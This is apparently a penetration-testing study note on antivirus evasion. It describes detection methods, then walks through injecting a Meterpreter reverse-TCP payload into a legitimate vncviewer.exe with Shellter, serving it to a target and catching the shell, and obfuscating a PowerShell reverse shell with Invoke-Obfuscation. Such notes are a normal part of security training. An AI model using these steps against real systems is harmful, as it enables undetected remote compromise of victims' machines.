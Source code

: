 
## AV Evation with Shelter


Defense Evation consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obfuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware. 

AV Detection Methods
1. Signature based detection 
   An AV signature is a unique sequence of bytes that uniquely identified malware. As a result you will have to ensure that you obfuscated exploit or payload does not match any known signature in the AC database.
   
   We can bypass signature-based detection by modifying the malware byte sequence therefore changing the signature

2. Heuristic-based detection 
   Relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns within the code or program calls
   
3. Behavior based detection 
   Relies on identifying malware by monitoring its behavior (used for newer strains of malware)

On-disk Evasion Techniques
- Obfuscation: Obfuscation refers to the process of concealing something important, valuable, critical. Obfuscation reorganizes code in order to make it harder to analyze or RE
- Encoding: Encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process: data can be encoded to a new format and decoded to its original format
- Packing: Generate executable with new binary structure with a smaller size and therefore provides the payload with a new signature
- Crypters: Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub. (ransomeware only hackers have the key)


In-Memory Evasion Techniques
	- Focus on manipulation of memory and does not write files to disk
	- Injects payload into a process by leveraging various Windows APIs
	- Payload is then executed in memory in a separate thread. 

Shellter
www.shellterproject[.]com 


- `sudo apt-get install shellter -y `
	-wine is allows you to execute windows executables on a linux system
- to install 32-bit packages: s`udo dpkg --add-architecture i386`
- `sudo apt-get install wine32`
- `cd /usr/share/windows-resources/shellter `
- you can execute a exe file on linux with wine: `sudo wine shellter.exe `
- identify legitimate executable you can inject your executable in
	- copy file: vncviewer.exe 
	- create folder AVBypass
	- put the file vncviewer.exe in the folder. 
- launch shelter
	- A (auto)
	- PE target: (provide the path of the file you want to inject into)
	- enable stealth mode: Y 
	- payload: L (listed payload) 1 

- transfer file to target 
	- get to the directory where the malicious injected file is - set up simple python webserver 
- set up multi/handler in msfconsole 
	- set payload windows/meterpreter/reverse_tcp 

On target system download the malicious file and execute it. On your multi/handler a connection will be established. 



#### Obfuscating Powershell code

https://github.com/danielbohannon/invoke-obfuscation

- clone the github (invoke-obfuscation)
  ![[Pasted image 20230917160016.png]]
	
- install powershell `sudo apt-get install powershell -y `
- launch powershell: `pwsh` 
- Import powershell module:`import-Module ./Invoke-Obfuscation.psd1 `
- run the tool:` Invoke-Obfuscation `

create reverse shell powershell script: 
- copy the powershell code from the reverse shell cheatsheet (github page)
- paste the code in tekst editor: remove the "" at beginning and end and change the attacker ip and the listener port. Store shell.ps1 
- `SET SCRIPTPATH path_to_powerscript_script/shell.ps1`
	- ENCODING 
	- BACK 
	- AST 
	- ALL
	- 1 
	now you see your obfuscated code 

Host a webserver so you can download the obfuscated code on the target system, set up a netcat so you can listen for incoming connections. 
- Set up webserver: `Sudo python3 -m http.server 80 ` 
- run with powershell 
  ![[Pasted image 20230917161200.png]]

in netcat click enter, you get a reverse shell 



















## Obfuscation with PowerShell code 